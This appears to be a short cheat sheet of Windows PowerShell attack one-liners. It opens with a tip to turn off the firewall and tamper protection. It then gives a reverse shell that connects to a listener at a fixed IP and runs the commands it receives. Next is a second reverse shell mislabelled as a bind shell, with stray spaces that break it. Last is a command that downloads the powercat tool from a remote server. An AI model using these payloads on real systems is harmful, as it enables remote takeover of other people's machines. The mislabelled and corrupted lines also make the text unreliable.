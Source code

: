 # Windows shells and payloads
> Might need to turn off firewall and tamper protection for it to work



**Reverse Shell**
```
$client	=	New-Object	System.Net.Sockets.TCPClient('192.168.7.46',4444);	$stream	=	$client.GetStream();
[byte[]]$bytes	=	0..65535|%{0};
while(($i	=	$stream.Read($bytes,	0,	$bytes.Length))	-ne	0)	
{
$data	=	(New-Object	-TypeName	System.Text.ASCIIEncoding).GetString($bytes,0,	$i);	$sendback	=	(iex	$data	2>&1	|	Out-String	);
$sendback2	=	$sendback	+	'PS	'	+	(pwd).Path	+	'>	';
$sendbyte	=	([text.encoding]::ASCII).GetBytes($sendback2);	$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();	
}	$client.Close();
```

**Bind Shell**
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"
```

powershell    -c    "(new-object    System.Net.WebClient).DownloadFile('http://192.178.7.46:8000/powercat.ps1','C:\Files\Tech\tmp\powercat.ps1')" 
